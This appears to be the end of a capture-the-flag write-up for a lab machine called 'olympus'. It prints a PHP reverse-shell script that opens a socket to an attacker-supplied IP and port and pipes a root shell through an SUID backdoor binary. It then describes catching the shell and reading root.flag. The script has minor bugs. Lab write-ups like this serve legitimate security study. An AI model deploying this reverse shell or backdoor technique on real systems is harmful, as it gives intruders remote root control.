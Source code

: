```shell
$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
stream_set_blocking($sock, 0);

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>

```

i executed the file in the browser and got a nice manual how to connect back as root.

![image](/images/Pasted image 20221214215926.png)

setting up the listener and filling in the password from the php file and i got the root shell.

![image](/images/Pasted image 20221214215941.png)

after navigating to `/root` i got the `root.flag`

```shell
root@olympus:/# cd root
root@olympus:/root# ls
config  root.flag  snap
root@olympus:/root# cat root.flag
                    ### Congrats !! ###




                            (
                .            )        )
                         (  (|              .
                     )   )\/ ( ( (
             *  (   ((  /     ))\))  (  )    )
           (     \   )\(          |  ))( )  (|
           >)     ))/   |          )/  \((  ) \
           (     (      .        -.     V )/   )(    (
            \   /     .   \            .       \))   ))
              )(      (  | |   )            .    (  /
```